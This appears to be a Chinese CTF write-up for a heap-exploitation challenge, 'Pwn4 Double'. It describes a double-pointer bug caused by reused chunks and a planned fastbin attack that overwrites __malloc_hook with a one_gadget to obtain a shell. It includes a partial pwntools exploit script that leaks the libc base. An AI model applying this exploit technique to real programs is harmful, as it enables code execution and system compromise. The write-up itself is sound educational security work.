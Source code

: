 



## Pwn4 Double  

一开始没发现哪里有洞，进程一度卡死，后来才注意到add函数里有这个操作：



![](./pwn4.png)



意思就是当用户输入的内容相同时，不再重新malloc堆块来存储数据，而是利用指针指向那块堆块内存，这样的话就存在两个指针同时指向一块内存的情况，新建多个fastbin所在的chunk，free掉存储数据的堆块，利用edit函数修改其fd指向`__malloc_hook`，之后就是fastbinAttack时间了，利用one_gadget写`__malloc_hook`，getshell，结束。  

这边贴一下脚本：

```python
from pwn import *
#context(log_level='debug',arch='amd64',os='linux')
p=process('./pwn')
#p=remote('394c6c946290cc950ef635bd899fafa1.kr-lab.com',40002)
elf=ELF('./pwn')

def add(content):
    p.recvuntil('> ')
    p.sendline('1')
    p.recvuntil('Your data:\n')
    p.sendline(str(content))

def dele(idx):
    p.recvuntil('> ')
    p.sendline('4')
    p.recvuntil('Info index:')
    p.sendline(str(idx))

def change(idx,content):
    p.recvuntil('> ')
    p.sendline('3')
    p.recvuntil('Info index: ')
    p.sendline(str(idx))
    p.sendline(str(content))

def show(idx):
    p.recvuntil('> ')
    p.sendline('2')
    p.recvuntil('Info index:')
    p.sendline(str(idx))



add('1'*0x80)
add('1'*0x80)
dele(0)
show(1)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p.recv(1)
libc_base=u64(p.recv(6).ljust(8,'\x00'))
libc_base -=  0x3c4b78
log.success("libc_base = %s"%hex(libc_base))
add('2'*0x60)
add('2'*0x60)
#gdb.attach(p)
dele(2)
#gdb.attach(p)
malloc_hook = libc_base + libc.symbols['__malloc_hook']
```